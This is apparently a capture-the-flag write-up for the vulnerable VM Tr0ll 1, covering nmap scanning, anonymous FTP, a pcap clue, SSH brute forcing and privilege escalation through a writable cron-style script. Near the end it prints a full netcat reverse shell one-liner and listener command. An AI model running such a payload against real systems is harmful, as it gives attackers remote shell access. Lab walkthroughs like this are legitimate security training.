 ```yaml
---
layout: default
title : muzec - Tr0ll 1 Writeup
---
```


![Image](https://imgur.com/V9fD8x3.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```


```
# Nmap 7.91 scan initiated Wed Apr 21 08:03:57 2021 as: nmap -sC -p- -sV -oA nmap 172.20.10.11
Nmap scan report for 172.20.10.11
Host is up (0.0018s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.20.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 21 08:04:08 2021 -- 1 IP address (1 host up) scanned in 10.85 seconds
                                                                                             
```

3 open ports and guess what we have FTP open so we are hitting that first since we have anonymous access to it let check it out.

![Image](https://imgur.com/FRKQQVG.png)

Cool a pcap file let get it to our system and use wireshark to open it.

![Image](https://imgur.com/gAeXnA5.png)

Going through it i found some secret text `Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P

Sucks, you were so close... gotta TRY HARDER!
`

Cool so let try the `sup3rs3cr3tdirlol` for the directory.

![Image](https://imgur.com/suFbBRW.png)

Downloaded and using file on it i found out it a ELF file so let try to give it permission and run it.

![Image](https://imgur.com/u8mcKLj.png)

![Image](https://imgur.com/olyRdLM.png)

Probably a secret directory again let try it.

![Image](https://imgur.com/44iKkm4.png)

So we have some usernames in a wordlists and a password list also i actually spend hours here trying figure out the password.

![Image](https://imgur.com/AJoQRM2.png)

![Image](https://imgur.com/y6vqQep.png)

So i try brute forcing SSH but no luck so i try doing adding the `pass.txt` to the wordlists and try brute forcing again and boom we have the password.

![Image](https://imgur.com/BULMwAf.png)

Going through the machine i found something interesting in the `/lib/log` directory.

![Image](https://imgur.com/ODrne88.png)

So let edit it with some reverse shell payload and start an ncat listener with `nc -nvlp 4444` reverse shell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` NOTE:- edit the Ip and port.

![Image](https://imgur.com/vBN9iqU.png)

Now let wait for it.

![Image](https://imgur.com/lBD4IQG.png)

And we are root.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
